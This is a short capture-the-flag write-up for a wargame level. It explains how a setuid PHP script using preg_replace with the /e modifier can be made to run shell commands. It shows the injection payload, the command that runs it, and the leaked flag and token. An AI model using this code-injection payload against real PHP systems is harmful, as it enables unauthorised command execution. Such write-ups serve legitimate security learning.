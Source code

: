 ## FLAG: `viuaaale9huek52boumoomioc`

## We have a PHP script and its executable ?
> ls -l
```
    total 12
    -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
    -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

## What's in there ?
> cat level06.php
```
    #!/usr/bin/php
    <?php
    function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
    function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
    $r = x($argv[1], $argv[2]); print $r;
    ?>
```
## This script takes up to 2 arguments but only use the first one
## which must be a file `$a = file_get_contents($y);`
## It takes its content and put it through multiple regex
## `preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)` can execute some code thanks to `/e`

------------------------------------------------

> echo '[x ${`getflag`}]' > /tmp/06_file && ./level06 /tmp/06_file
```
    PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    in /home/user/level06/level06.php(4) : regexp code on line 1
```